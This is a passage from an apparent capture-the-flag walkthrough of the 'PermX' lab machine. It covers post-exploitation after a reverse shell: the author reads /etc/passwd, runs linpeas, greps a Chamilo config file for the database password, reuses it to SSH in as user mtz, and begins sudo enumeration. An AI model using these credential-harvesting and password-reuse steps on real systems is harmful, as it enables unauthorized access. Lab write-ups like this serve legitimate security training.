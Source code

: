 Perfect! We got a reverse shell :)

![758183506dd5b2cebef5c4949cf137c9.png](758183506dd5b2cebef5c4949cf137c9.png){: w="700" h="300" .center}

### Enumeration
Let's see what users are on the system.
```console
www-data@permx:$ grep '/bin/bash' /etc/passwd
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

`mtz` seems to be our next target. Let's run linpeas and see what we can use to escalate our privileges.

`Linpeas` found these **FTP Credentials** but there is no FTP running on the system. I'm guessing this is just a standard configuration file.

![e26b95d5a2660fec16a5cb8b8b2e8530.png](e26b95d5a2660fec16a5cb8b8b2e8530.png){: w="600" h="300" .center}

### SSH as 'mtz'
`Linpeas` found a `$_configuration['db_password']` inside the file `/var/www/chamilo/app/config/configuration.php`

Let's use grep to get all the information that could be useful to us.
```console
www-data@permx:$ grep -i "db_pass" /var/www/chamilo/app/config/configuration.php --color -B 5 -A 10
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '[REDACTED]';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

I tried using the password to SSH with the user `mtz` and it worked!

We can find the **user flag** inside `user.txt` in `mtz`'s home directory!
```console
m3ga@kali$ ssh mtz@permx.htb
mtz@permx.htb's password: [REDACTED]
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-113-generic x86_64)
...
mtz@permx:~$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
mtz@permx:~$ ls
user.txt
mtz@permx:~$ cat user.txt 
[REDACTED]
```

## Root Flag
### Enumeration
After checking what I can run with sudo, we find the `/opt/acl.sh` script which can be ran by us with root privileges.
```console
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
